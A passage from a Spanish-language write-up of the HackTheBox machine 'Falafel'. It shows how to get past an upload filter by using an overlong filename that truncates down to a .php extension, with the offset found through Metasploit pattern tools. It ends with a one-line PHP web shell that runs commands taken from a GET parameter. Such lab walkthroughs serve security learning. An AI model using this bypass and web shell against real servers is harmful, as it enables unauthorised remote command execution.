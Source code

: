 Si la represento en hexadecimal ocurre lo mismo. Pruebo también a introducir otra IP dentro del segmento '127' que debería ser lo mismo. Hago una prueba en mi equipo para asegurarme

```null
ping -c 1 127.4.4.4
PING 127.4.4.4 (127.4.4.4) 56(84) bytes of data.
64 bytes from 127.4.4.4: icmp_seq=1 ttl=64 time=0.023 ms

--- 127.4.4.4 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.023/0.023/0.023/0.000 ms
```

Tampoco funciona. Solo faltaría probar a cambiarle el nombre del archivo por uno de una longitud mayor a 255 bytes, que es el límite para renombrar un archivo. Renombro mi archivo de ejemplo con tantas "A" como para llegar al tope, restándole 4 bytes que corresponden a la extensión

```null
mv example.jpg $(python3 -c 'print("A"* 251 + ".jpg")')
```
Me comparto un servicio HTTP con python, y a la hora de descargar el archivo lo renombra para hacerlo más corto, quitando la extensión

<img src="/writeups/assets/img/Falafel-htb/12.png" alt="">

Le vuelvo a cambiar el nombre para que tenga la extensión PHP al final, de tal forma que solo se elimine el JPG, dejando un PHP. Pero no es tan sencillo como eliminar solo 4 bytes. Creo un patrón con ```pattern_create``` que se encargue de calcular el offset

```null
mv example.jpg "$(pattern_create.rb -l 251).jpg"
```

Para calcular el offeset, me quedo con los 4 últimos bytes que me representa

```null
pattern_offset.rb -q h7Ah
[*] Exact match at offset 232
```

Ahora ya consigo que quede la extensión PHP en el nombre del archivo

```null
mv example.jpg $(python3 -c 'print("A"*232 + ".php" + ".jpg")')
```

<img src="/writeups/assets/img/Falafel-htb/13.png" alt="">

Creo un archivo PHP que me permita ejecutar comandos y lo subo con ese nombre.

```null
<?php
  system($_GET['cmd']);
?>
```
